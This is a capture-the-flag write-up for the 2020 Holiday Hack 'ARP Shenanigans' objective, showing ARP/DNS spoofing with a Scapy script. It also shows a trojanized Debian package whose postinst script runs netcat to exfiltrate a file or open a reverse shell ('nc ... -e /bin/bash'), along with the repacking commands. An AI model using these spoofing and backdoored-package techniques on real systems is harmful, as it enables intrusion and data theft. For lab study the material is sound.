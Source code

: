 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing. This document holds the information who recused herself from a vote.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/spoof.py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.
Furthermore this script spoofs DNS replies for queries sent to the spoofed host and does always return A records pointing to it's own local IP address.
The script takes the IP address of the spoofed host as argument, so here is has to be called with `./spoof.py 10.6.6.53`.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```

A Node.js HTTP server was started from the home directory using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the local host the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include a netcat command in the postinst script to send the text file to our local host:

`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.

The snippet below automatically inserts the correct IP address of the local host and places the package in the right location of the web tree:
```
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb

```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) (resp. receive the reverse shell connection).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTE5NTQ4OTUxMSw3OTczNDE5MjIsMjY4Nj
UzNDg0LDEyNzI2NTY0MTksODU4MTg4OTI5LDEwOTI3ODUzMjEs
LTIwNjI2NzUyOTcsLTYxMjg5Nzc5OSwtODUyNzIyNzAzLDE3NT
gyNDM2NzcsMTYzNDM5NDk0MSwxMjA0NDI2NTM5LC0xNzk4NDE1
ODk2LC04NzgzOTIyMTYsNTE0MjA5MTU5XX0=
-->